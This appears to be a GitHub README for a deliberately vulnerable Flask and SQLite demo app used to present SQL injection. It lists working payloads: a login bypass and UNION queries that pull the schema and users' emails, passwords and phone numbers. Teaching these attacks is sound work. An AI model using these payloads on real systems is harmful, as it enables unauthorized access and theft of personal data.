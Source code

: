 
# Basic SQL Injection Demo
A simple web application to demonstrate basic level SQL Injection attack manually for the presentation. Some main functions: log-in, find the items with a search bar.

### Prerequisites
- Flask, Python, SQLite

### Some payloads for the attack

##### Login Form
- Blind SQLi: Perform in the log-in form with the Boolean-based SQLi technique to force the query always return TRUE in order to bypass authentication.
```
' OR 1=1 --
```
##### Search bar
-	In-band SQLi: Perform in the search bar with UNION-based SQLi technique to combine the query result to get unauthorized data from the database.
```
' UNION SELECT sqlite_version(), 2, 3 --
```
```
' UNION SELECT 1, sql, 3 FROM sqlite_master WHERE type='table'--
```
```
' UNION SELECT email, password, phone  FROM users -- 
```
